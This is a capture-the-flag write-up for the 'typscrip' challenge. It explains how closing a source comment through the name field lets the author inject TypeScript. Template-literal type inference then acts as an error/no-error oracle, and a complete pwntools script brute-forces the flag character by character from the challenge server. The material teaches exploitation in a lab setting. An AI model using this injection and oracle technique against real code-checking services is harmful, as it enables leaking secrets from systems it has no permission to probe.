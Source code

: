 # typscrip
```
I like typescript. Do you like typescript?

nc chall.pwnoh.io 13381
```

We are given a zip [archive](./archive/) and a remote connection port.
In the archive we find Docker stuff so we can run it locally, and an [app.mjs](./archive/app.mjs) file.
Inspecting the file we find that the flag is retrieved from an env variable, and searching for it's usages
we find only one:
```js
const source = `/* TYPE CHECKED FOR ${name} ON ${today}. THE FLAG IS "${flag}". */` + "\n\n" + code;
```

Inspecting the code we also learn that we are prompted our name (`${name}`) and for typescript code to check (`code`).

After we enter all of our code, it's passed to the `compile` function which doesn't actually run the code, but only checks for errors in it.

So how do we solve it?

First, we are prompted for out name, so we can probably somehow exploit it.
If we look again at how the `source` variable is created, we see that our name
is put in a comment, but nothing stops us from closing the comment in the name!
So a name like `*/` will close the comment and allow us to enter javascript in our name.

But how do we exploit it? Let's try to save the flag in a variable in typescript code.
Let's set our name to be
```ts
*/ const myString = `
```
And then we can terminate the string in our `code` part. So our code will be:
```ts
`;
```

Great! But now how do we get the flag out? Looking at the `compile` function, all
it returns is a list of strings with content like
```js
`${severity} on line ${diagnostic.getLineNumber()}`
```
Let's try and see how it looks
```fish
What is your name?
> den
Hello, den. Give me some code: (end with blank line)
> 0 == 1 // This is an error in typescript, as it will always be false.
> 
Thinking...
Error on line 3
```
So all we get is kinda binary output, error/no error, just like `true`/`false`.
If we could somehow go over each character in the flag, and compare it to first
`a`, then `b`, then `c`, then `d` and etc in such a way that only the correct character
didn't create an error, we could "brute force" the flag character by character.

The problem is: how do we do so? First, we know it must be something at compile-time,
as the code is never even run. So let's search for `typescript run code at compile time`
on Google!

The first two results are
```
https://developers.mews.com/compile-time-functional-programming-in-typescript/
https://github.com/Microsoft/TypeScript/issues/26534
```
Looking at the github result, it looks like the feature proposal wasn't accepted,
so it will not help us. But what about article?

An interesting snippet in that article is
```ts
type Head<T> = T extends [infer H, ...infer Rest] ? H : never;  

type X = Head<[1, 2, 3]>;  // 1
```
It looks like the author found a way to get the first element of a list at compile time into a type `X`
But the flag characters are in a string, so we change this code to work with strings.

Searching for `inferring character type inside string typescript` gives us
[this](https://medium.com/@anchen.li/fundamentals-of-advanced-typescript-types-part-5-592f9174bdcf)
link, which uses the `${infer first}${infer rest}` syntax to get the first character of the string.

Playing a little with this, we can find out that doing `${infer first}${infer second}${infer rest}`
gives us the type of the second type, and so on.

So what's our plan? First we exploit the bug with `name` to create our `type CurrentChar<T>`
which will get us the type of the character at an index, and then we create
`type MyString` which will contain the string with the flag. Then in our code
part we use CurrentChar<MyString> to get the type of that character, and we are almost done!
`CurrentChar<MyString>` is of the same type as a character in the flag, right?
Say that character is `x`, what happens when we create a variable
```ts
let a: "x" = "y";
```
That's right! The type doesn't match, so we get an error. If instead of `y` it
would been `x`, everything would "compile" without any errors. So let's just send

`let a: "x" = "a";`, `let a: "x" = "b";`, `let a: "x" = "c";`, `...`

Until we get no error, and thus the character we sent is correct!
Now instead of `"x"`, we are going to send `CurrentChar<MyString>`, which as
you remember has a type of a flag character.

I decided to automate the character brute force using python, where we try each
character until we get a `"Congrats"` in the response.

The `"Congrats"` comes from this `if` check in the server source-code:
```js
if (errors.length === 0) {
    socket.write('Congrats, your code is perfect\n');
} else {
    socket.write(errors.join('\n') + '\n');
}
```

Oh, and one last thing, how do we know at which index the flag starts and ends?
Well, it's easy to know when it ends, you will just encounter a `}`, but to know
how it starts we need to take into account what our string contains.

If we insert our code into `name` in (the today is replaced with the current date and the flag with the flag)
```js
const source = `/* TYPE CHECKED FOR ${name} ON ${today}. THE FLAG IS "${flag}". */` + "\n\n" + code;
```
the source variable will contain the following typescript:
```ts
/* TYPE CHECKED FOR */ type MyString = ` ON 10/1/2023. THE FLAG IS "bctf{some_flag_here}". */

`; // <- this will be added in our `code`
```

and because we know everything before the flag, we can just count at which
index to start, or use a function to get this index for us.

Combining all of this into a python script we get the following solve script
```py
import pwn

FLAG_START = "bctf{"

# Extracted from the source code. We use it only to get the index where the flag
# starts
FLAG_STRING = ' ON 10/1/2023. THE FLAG IS "bctf{fake_flag}"'

FLAG_START_INDEX = FLAG_STRING.find(FLAG_START) + len(FLAG_START)

# Charset optimized for 1337
CHARSET = "_" + "4bcd3fghijklmn0pqr57uvwxyz" + "o12eas6t89" + "}"
pwn.log.info(f"Using charset '{CHARSET}'")


def try_char_at_index(ch: str, idx: int) -> bool:
    code_prefix = (
        b"*/type CurrentChar<T extends string> = T extends `"
        + b"${infer _1}" * idx
        + b"${infer Char}${infer Rest}` ? Char : never; type MyString = `"
    )

    code_suffix = f"""`;
    // @ts-ignore
    type CurrentCharacter = CurrentChar<MyString>;
    let a: CurrentCharacter = '{ch}';
    """.encode(
        "utf-8"
    )

    p = pwn.remote("chall.pwnoh.io", 13381)
    p.sendline(code_prefix)
    p.recvuntil(b"(end with blank line)\n")
    p.sendline(code_suffix)
    p.sendline(b"")
    response = p.recvall()

    return response is not None and b"Congrats" in response


flag = FLAG_START
current_char_index = FLAG_START_INDEX

while True:
    for ch in CHARSET:
        pwn.log.info(
            f"Trying '{ch}' for index {current_char_index}. Current flag: {flag}"
        )
        if try_char_at_index(ch, current_char_index):
            flag += ch
            current_char_index += 1

            if ch != "}":
                break

            pwn.log.success(f"flag: {flag}")
            exit(0)
```

Success! The flag is `bctf{4ny1_w4n7_50m3_4ny_04c975da}`.

#### Notes:
- You can make this script a lot faster by just using threads, or
    doing something smart with brute forcing all the chars at the same time because
    you know on what line the error was. But that's left as an exercise for the
    reader :D
- The `// @ts-ignore` is needed because typescript complains that the "expression
    produces a type that's too complex to represent".

